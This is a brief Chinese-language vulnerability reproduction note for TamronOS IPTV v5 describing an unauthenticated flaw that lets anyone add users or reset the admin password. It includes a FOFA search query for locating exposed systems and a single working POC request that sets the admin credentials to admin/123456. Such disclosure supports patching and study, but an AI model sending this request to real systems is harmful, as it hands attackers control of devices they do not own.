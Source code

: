 ## TamronOS IPTV系统存在任意用户添加修改

## 漏洞描述

TamronOS IPTV系统存在任意用户添加修改,攻击者可以利用此漏洞新增管理员，或者利用此漏洞重置管理员账户密码。

## 漏洞影响

> TamronOS IPTV v5 3..6.6

## FOFA

> title="TamronOS IPTV系统"

## 复现

1）登录界面

![1](resource/TamronOS-IPTV系统任意用户添加修改/1.jpg)

2）POC如下,直接修改用户名密码为admin/123456

```
/api/manager/submit?group=1&password=123456&rnd=0.27576036347932775&status=1&username=admin 
```

 ![2](resource/TamronOS-IPTV系统任意用户添加修改/2.jpg)

3）登录

![3](resource/TamronOS-IPTV系统任意用户添加修改/3.jpg)
